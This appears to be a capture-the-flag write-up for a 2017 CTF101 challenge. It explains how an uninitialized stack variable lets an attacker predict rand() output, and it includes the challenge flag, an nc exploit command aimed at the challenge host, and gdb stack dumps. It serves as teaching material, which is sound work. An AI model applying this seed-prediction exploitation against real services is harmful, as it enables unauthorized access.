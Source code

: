 # CTF101 2017: Day 2 Challenge 5

## Type of challenge

- Psuedo-random generators
- Uninitalized variables

## Flag

```
ctf{mining_gold_like_goldfish}
```

---

## Exploit

```
./exploit | nc pwn.dystopia.sg 2468
```

### Notes

- `rand()` uses the value of `seed` as the seed, which is an uninitialized variable.

#### When exiting `create_miner` stack frame

- Size of stack = `100` + `4` + `4`:
    - Push `char name[100]`
    - Push `int seed`
    - Push `int id`
- We can see that the stack variables start after `0xffffd2dc`.
- After exiting, `$esp` is set to value of `$ebp`, which reduces it by `108` bytes.

```
(gdb) x/32xw $esp
0xffffd270:	0xf7faed60	0x5ae99de7	0x41414141	0x41414141
0xffffd280:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd290:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2d0:	0x41414141	0x41414141	0xffffd200	0x26eace00
0xffffd2e0:	0x08048987	0xffffd3a4	0xffffd2f8	0x080488e1
```

#### When entering `mine_gold` stack frame:

- Size of stack = `4` + `4` + `4`:
    - Push `int secret`
    - Push `int seed`
    - Push `int input`
- We know the address of `seed`, from the offset from what we found earlier. 
    - `print &seed` gives us `0xffffd2d4`
    - Contents of `0xffffd2d4` = `0x41414141` (or 1094795585 in decimal)

```
(gdb) x/8xw $esp
0xffffd2d0:     0x41414141      0x41414141      0xffffd200      0x26eace00
0xffffd2e0:     0x08048987      0xffffd3a4      0xffffd2f8      0x080488e6
```

- After `scanf` and `srand(seed)`:
    - We can see that `secret` (`0xffffd2d8`) is equal to `input` (`0xffffd2d0`).

```
(gdb) x/8xw $esp
0xffffd2d0:     0x79ef55a0      0x41414141      0x79ef55a0      0xc7d72900
0xffffd2e0:     0x08048987      0xffffd3a4      0xffffd2f8      0x080488e6
```

- We can predictably know the value of `rand()` if we know the seed value.
    - See `exploit.c` which uses the same seed value to generate a payload.
    - Actually, we can immediately extract out the value of `secret` from `gdb` itself, but let's assume that the seed is slightly more complicated (involves `time()` or something), so we create a C program to generate a payload which can be piped to `nc`.
